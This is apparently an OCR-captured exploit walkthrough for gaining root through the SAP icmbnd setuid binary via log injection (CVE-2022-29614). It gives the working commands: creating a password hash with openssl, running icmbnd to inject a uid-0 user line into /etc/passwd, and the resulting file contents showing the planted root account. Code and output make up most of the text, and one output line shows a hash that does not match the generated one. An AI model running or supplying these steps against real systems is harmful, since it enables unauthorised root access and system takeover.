 ### The Golden Ticket: SAP Binary Abuse

Everyone sleeps on SAP tools. They’re basically forgotten suid toys.

<strong>Found icmbnd binary in:</strong>

/sapmnt/PBD/exe/uc/linuxx86_64/

Quick Google → vulnerable to log injection (CVE-2022-29614). Perfect


#### Step 1: Make a root hash
```bash
openssl passwd -1 "epsteinddntKILLhmself911"

$1$feO36Gm2$NhxHh6Oa00PhW/X.K9Fvw/
```
#### Step 2: Inject root user into /etc/passwd

We ran the icmbnd exploit as documented in the lekos advisory:

```bash
./icmbnd -S '443' -f /etc/passwd -apptrc -p HTTP -l '443
> lekos:$1$feO36Gm2$NhxHh6Oa00PhW/X.K9Fvw/:0:0::/root:/bin/sh
> abc'



icmbnd: NiListen failed for 443
lekos:$1$Sp/vZUsU$Az0WrZBt.FVbBFwwY4LhD1:0:0::/root:/bin/sh
abc (rc=-8): NIEINVAL
IcmBndConnect: IcmConnect to port 443 failed (rc=-10)
icmbnd: IcmBndConnect (rc=-10)
The command errors out, but the magic happens anyway. Checking /etc/passwd:
```
```bash
cat /etc/passwd

[...]
{SID}adm:x:20020:1002:SAP System Administrator:/home/{SID}adm:/bin/csh

---------------------------------------------------
trc file: "passwd", trc level: 1, release: "749"
---------------------------------------------------

[Thr 140555051841344] Sun Aug 24 16:12:21 2025
[Thr 140555051841344] systemid:   390 (AMD/Intel x86_64 with Linux)
[Thr 140555051841344] version:    7490
[Thr 140555051841344] patchlevel: 0    (server: 0)
[Thr 140555051841344] patchno:    200    (server: 200)
[Thr 140555051841344] intno       20160201    (server: 20160201)
[Thr 140555051841344] make:       multithreaded, Unicode, 64 BIT
[Thr 140555051841344] pid:        95259
[Thr 140555051841344] 
[Thr 140555051841344] *** WARNING => NiServerHandle: parameter invalid (strlenU(pServName) >= NI_MAX_SERVNAME_LEN) [nixx.c       238]
[Thr 140555051841344] *** ERROR => icmbnd: NiListen failed for 443
lekos:$1$feO36Gm2$NhxHh6Oa00PhW/X.K9Fvw/:0:0::/root:/bin/sh
abc (rc=-8): NIEINVAL [icxxbnd.c    620]
[Thr 140555051841344] *** ERROR => icmbnd: You might not have the permissions to bind the service: 443
[...]
```
